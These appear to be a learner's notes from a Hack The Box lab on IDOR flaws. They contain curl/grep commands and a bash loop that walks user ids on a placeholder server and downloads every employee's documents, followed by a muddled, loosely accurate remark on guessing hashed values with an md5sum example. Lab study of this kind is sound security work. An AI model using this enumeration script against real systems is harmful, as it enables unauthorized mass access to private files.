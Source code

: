         We can pick any unique word to be able to `grep` the link of the file. In our case, we see that each link starts with `<li class='pure-tree_link'>`, so we may `curl` the page and `grep` for this line, as follows:
        
        ```
        KareemAlsadeq@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
        <li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
        ```
        
        As we can see, we were able to capture the document links  
        successfully. We may now use specific bash commands to trim the extra  
        parts and only get the document links in the output. However, it is a  
        better practice to use a `Regex` pattern that matches strings between `/document` and `.pdf`, which we can use with `grep` to only get the document links, as follows:
        
        ```
        KareemAlsadeq@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"/documents/Invoice_3_06_2020.pdf
        /documents/Report_3_01_2020.pdf
        ```
        
        Now, we can use a simple `for` loop to loop over the `uid` parameter and return the document of all employees, and then use `wget` to download each document link:
        
        Code: bash
        
        ```
        #!/bin/bash
        
        url="http://SERVER_IP:PORT"
        
        for i in {1..10}; do
                for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                        wget -q $url/$link
                done
        done
        ```
        
        When we run the script, it will download all documents from all employees with `uids`  
        between 1-10, thus successfully exploiting the IDOR vulnerability to  
        mass enumerate the documents of all employees. This script is one  
        example of how we can achieve the same objective. Try using a tool like  
        Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script  
        to download all documents.
        
          
        
    - to hash it is a one way only so we can just hash things but we can dehash it but we maniplutae that to ashive oour purpose anyway via hashing our guessed values or what ever and if it get the same hash as the target then we knew the plantext value .
    -   
        
        ```
        KareemAlsadeq@htb[/htb]$ echo -n 1 | md5sumc4ca4238a0b923820dcc509a6f75849b -
        ```
        